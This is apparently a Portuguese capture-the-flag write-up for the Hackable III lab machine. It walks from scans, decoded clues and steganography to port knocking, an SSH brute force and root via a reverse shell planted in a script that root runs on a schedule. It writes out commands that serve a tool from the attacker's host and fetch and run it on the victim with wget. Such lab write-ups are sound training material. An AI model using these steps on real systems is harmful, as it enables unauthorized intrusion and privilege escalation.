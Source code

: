 <h2>Começamos com uma varredura simples com nmap e uma varredura por diretórios.</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/1.JPG)

<h2>Lendo o código fonte, vemos uma mensagem do desenvolvedor para alguém - jubiscleudo - e mencionando sobre o port knocking, logo sabemos que tem algum serviço oculto. Também encontramos o caminho para uma página de login </h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/2.JPG)

<h2>Analisando o arquivo robots.txt vemos que a pasta config não está permitada -> Disallow: /config
acessando ela temos um arquivo chamada 1.txt, usando o hashanalyser(https://www.tunnelsup.com/hash-analyzer/) sabemos que se trata de um base64, fazendo o decode temos o seguinte: 10000</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/3.JPG)
![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/3.1.JPG)
img3
img3.1

<h2>Procurando nos outros diretórios(/css) encontrei o 2.txt, se trata de um Brainfuck, pesquisando por decode brainfuck encontramos algumas opções e temos como resultado 4444.</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/4.JPG)
![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/4.1.JPG)
img4
img4.1

<h2>Vemos uma wordlist na pasta backup que nos será útil mais tarde</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/5.JPG)
img5

<h2>Pesquisando um pouco sobre port knocking nota-se que por default ele vem com as portas 7000,8000,9000 (3 portas são necessárias), seguindo essa lógica temos apenas os valores 1 e 2, existem 3 formas de encontrar o 3 arquivo.</h2>

<h3>1° FORMA: Fazendo uma varredura de diretórios por extensão(os 2 primeiros eram txt, o 3° não é! por isso sempre faça uma varredura "genérica")</h3>
![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/6.1.JPG)
img6.1

<h3>2° FORMA: Na varredura também podemos encontar um outro arquivo html(home.html), acessando ele e vendo a fonte vemos um comentário bem explícito que existe algum arquivo.jpg que temos que buscar, isso simplificaria muito a busca</h3>
![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/6.2.JPG)
![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/6.2.1.JPG)
img6.2
img6.2.1

<h3>3° FORMA: Na página de login que encontramos anteriormente, tentando fazer login vemos que não acontece nada pois ainda está em desenvolvimento, porém vendo a fonte encontramos nosso 3.jpg lá!</h3>
![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/6.3.JPG)
img6.3

<h2>Abrindo o 3.jpg já percebe-se que se trata de esteganografia, usaremos o steghide, usando o info vemos que existe algo lá dentro, agora extraimos ele(ao pedir senha pode apenas apertar enter já que o arquivo não possui senha). Assim temos nossa última "senha: 65535"</h2>
![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/7.JPG)
img7

<h2>Usaremos o knock para "abrir" o serviço oculto, usando a mesma ordem das senhas 1-2-3, se trata de um ssh</h2>
![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/8.JPG)
img8

<h2>Agora entra a wordlist que encontramos antes, como usuário temos o jubiscleudo, faremos um brute force e entraremos via ssh</h2>
![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/9.JPG)
img9

<h2>A 1° flag está oculta, ls -la</h2>
![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/10.JPG)
img10


<h2>Dando uma olhada nos arquivos de /var/www/html conseguimos as credenciais para outro usuário</h2>
![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/11.JPG)
img11


<h2>Após fazer login no usuário hackable_3 executaremos o [pspy](link_pspy) - periodicamente  o root(UID=0) executado "python3 /scripts/to_hackable_3.py", indo até a pasta não existe o arquivo, então basta criarmos um arquivo com o mesmo caminho que será executado pelo root</h2>

atacante: python3 -m http.server
vítima: wget http://ip_kali:8000/pspy
	chmod +x
	./pspy

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/12.JPG)
img12

<h2>Agora é hora da criatividade, o root está executando nosso arquivo python, no nosso caso queremos conseguir uma reverse shell</h2>

<h2>para o reverse shell usei o de python -> [seguinte](https://shellgenerator.github.io/):</h2>
![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/13.JPG)
img13

<h2>Deixamos nosso netcat ouvindo e aguardamos o processo executa nosso arquivo</h2>
![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/14.JPG)
img14
